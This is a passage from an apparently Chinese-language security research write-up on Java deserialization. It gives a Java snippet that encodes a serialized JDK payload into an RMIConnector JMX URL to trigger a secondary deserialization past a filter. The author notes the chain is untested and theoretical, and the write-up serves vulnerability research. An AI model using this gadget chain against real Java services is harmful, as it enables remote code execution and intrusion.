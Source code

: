#### 四、打二次反序列

[![](assets/1706958618-888e4217c806744f15d25dbb04a95c73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129165616-42ffb93a-be84-1.png)

没过滤 javax.management.remote.rmi

```bash
File file = new File("jdk 的序列化 bin");
byte[] fileBytes = Files.readAllBytes(file.toPath());
String base64 = Base64.getEncoder().encodeToString(fileBytes);

JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
Method connect = rmiConnector.getClass().getMethod("connect");
Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
Object[] ags = new Object[]{invoke, new Object(), new Object[]{ connect,rmiConnector, null}};
```

打 RMIConnector 的二次。需要注意二次使用 jdk 的序列化，不是 hessian 的。

以上未尝试复现，纯理论，实战可能需要改改。

总后致敬**wh1t3p1g**，都是 XStream 的链子。

### 0x06 参考链接
